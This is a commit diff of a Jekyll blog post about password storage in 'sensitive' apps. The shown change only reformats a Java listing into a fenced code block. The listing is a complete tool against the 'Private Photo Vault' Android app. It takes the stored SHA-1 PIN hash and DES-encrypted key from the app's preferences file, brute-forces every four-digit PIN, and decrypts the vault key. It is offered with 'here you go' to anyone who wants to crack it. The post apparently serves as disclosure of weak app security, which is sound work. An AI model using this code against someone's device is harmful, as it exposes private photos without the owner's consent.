

Before and after one commit to CunningLogic/cunninglogic.github.io, a Jekyll site: the page built from _posts/2016-10-6-Password-Storage-In-Sensitive-Apps.md, in a window 1280 px wide and 1400 px high, scrolled down 1562 px. Shown: the whole window, without its empty margins (248-1034 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
password fuckery

```diff
--- a/_posts/2016-10-6-Password-Storage-In-Sensitive-Apps.md
+++ b/_posts/2016-10-6-Password-Storage-In-Sensitive-Apps.md
@@ -29,83 +29,85 @@ These companies are selling products that claim to securely store your most inti
 
 So for those that want to crack the pin and key for a “Private Photo Vault” installation, here you go.
 
->public class Main {
->
->    public static void main(String[] args) {
->
->     // "pin" and "enc_keys_pin" from com.enchantedcloud.photovault_preferences.xml
->        String hashedPIN = "7110eda4d09e062aa5e4a390b0a572ac0d2c0220"; // 1234
->        String encKeyPin = "Dar+SDapSbp1mKcztPYWi4vDcvGBNLM8B7WVy00MT1WK0gd2R4wAdg=="; // 1e8a99cb-ebe8-452c-b9da-6466a8a60e02
->
->        System.out.println("Cracking pin...");
->        String PIN = crackPIN(hashedPIN);
->        System.out.println("PIN is " + PIN);
->
->        System.out.println("Decrypting Key...");
->        String KEY = decryptKey(encKeyPin,PIN);
->        System.out.println("KEY is " + KEY);
->    }
->
->    private static String decryptKey (String KEY, String PIN) {
->
->        while (PIN.length() < 8) {
->            PIN = PIN + 0;
->        }
->
->        SecretKey secKey = null;
->        try {
->            secKey = SecretKeyFactory.getInstance("DES").generateSecret(new DESKeySpec(PIN.getBytes("UTF8")));
->            byte[] bKey = Base64.decode(KEY);
->            Cipher cipher = Cipher.getInstance("DES");
->            cipher.init(2, (secKey));
->            return new String(cipher.doFinal(bKey));
->        } catch (InvalidKeySpecException e) {
->            e.printStackTrace();
->        } catch (NoSuchAlgorithmException e) {
->            e.printStackTrace();
->        } catch (InvalidKeyException e) {
->            e.printStackTrace();
->        } catch (UnsupportedEncodingException e) {
->            e.printStackTrace();
->        } catch (BadPaddingException e) {
->            e.printStackTrace();
->        } catch (IllegalBlockSizeException e) {
->            e.printStackTrace();
->        } catch (NoSuchPaddingException e) {
->            e.printStackTrace();
->        }
->        return null;
->    }
->
->    private static String crackPIN(String hashedPIN) {
->        for (int i = 0; i <= 9999;i++) {
->            String testPin = Integer.toString(i);
->            while (testPin.length() < 4) {
->                testPin = "0" + testPin;
->            }
->            try {
->                MessageDigest md = MessageDigest.getInstance("SHA-1");
->                md.reset();
->                md.update(testPin.getBytes());
->                if (hashedPIN.equals(bytesToHex(md.digest()))) {
->                    return testPin;
->
->                }
->            } catch (NoSuchAlgorithmException e) {
->                e.printStackTrace();
->            }
->        }
->        return null;
->    }
->
->    private static String bytesToHex(byte[] bytes) {
->        char[] hexArray = "0123456789abcdef".toCharArray();
->        char[] hexChars = new char[bytes.length * 2];
->        for ( int j = 0; j < bytes.length; j++ ) {
->            int v = bytes[j] & 0xFF;
->            hexChars[j * 2] = hexArray[v >>> 4];
->            hexChars[j * 2 + 1] = hexArray[v & 0x0F];
->        }
->        return new String(hexChars);
->    }
->}
+~~~ java
+public class Main {
+
+    public static void main(String[] args) {
+
+     // "pin" and "enc_keys_pin" from com.enchantedcloud.photovault_preferences.xml
+        String hashedPIN = "7110eda4d09e062aa5e4a390b0a572ac0d2c0220"; // 1234
+        String encKeyPin = "Dar+SDapSbp1mKcztPYWi4vDcvGBNLM8B7WVy00MT1WK0gd2R4wAdg=="; // 1e8a99cb-ebe8-452c-b9da-6466a8a60e02
+
+        System.out.println("Cracking pin...");
+        String PIN = crackPIN(hashedPIN);
+        System.out.println("PIN is " + PIN);
+
+        System.out.println("Decrypting Key...");
+        String KEY = decryptKey(encKeyPin,PIN);
+        System.out.println("KEY is " + KEY);
+    }
+
+    private static String decryptKey (String KEY, String PIN) {
+
+        while (PIN.length() < 8) {
+            PIN = PIN + 0;
+        }
+
+        SecretKey secKey = null;
+        try {
+            secKey = SecretKeyFactory.getInstance("DES").generateSecret(new DESKeySpec(PIN.getBytes("UTF8")));
+            byte[] bKey = Base64.decode(KEY);
+            Cipher cipher = Cipher.getInstance("DES");
+            cipher.init(2, (secKey));
+            return new String(cipher.doFinal(bKey));
+        } catch (InvalidKeySpecException e) {
+            e.printStackTrace();
+        } catch (NoSuchAlgorithmException e) {
+            e.printStackTrace();
+        } catch (InvalidKeyException e) {
+            e.printStackTrace();
+        } catch (UnsupportedEncodingException e) {
+            e.printStackTrace();
+        } catch (BadPaddingException e) {
+            e.printStackTrace();
+        } catch (IllegalBlockSizeException e) {
+            e.printStackTrace();
+        } catch (NoSuchPaddingException e) {
+            e.printStackTrace();
+        }
+        return null;
+    }
+
+    private static String crackPIN(String hashedPIN) {
+        for (int i = 0; i <= 9999;i++) {
+            String testPin = Integer.toString(i);
+            while (testPin.length() < 4) {
+                testPin = "0" + testPin;
+            }
+            try {
+                MessageDigest md = MessageDigest.getInstance("SHA-1");
+                md.reset();
+                md.update(testPin.getBytes());
+                if (hashedPIN.equals(bytesToHex(md.digest()))) {
+                    return testPin;
+
+                }
+            } catch (NoSuchAlgorithmException e) {
+                e.printStackTrace();
+            }
+        }
+        return null;
+    }
+
+    private static String bytesToHex(byte[] bytes) {
+        char[] hexArray = "0123456789abcdef".toCharArray();
+        char[] hexChars = new char[bytes.length * 2];
+        for ( int j = 0; j < bytes.length; j++ ) {
+            int v = bytes[j] & 0xFF;
+            hexChars[j * 2] = hexArray[v >>> 4];
+            hexChars[j * 2 + 1] = hexArray[v & 0x0F];
+        }
+        return new String(hexChars);
+    }
+}
+~~~
```
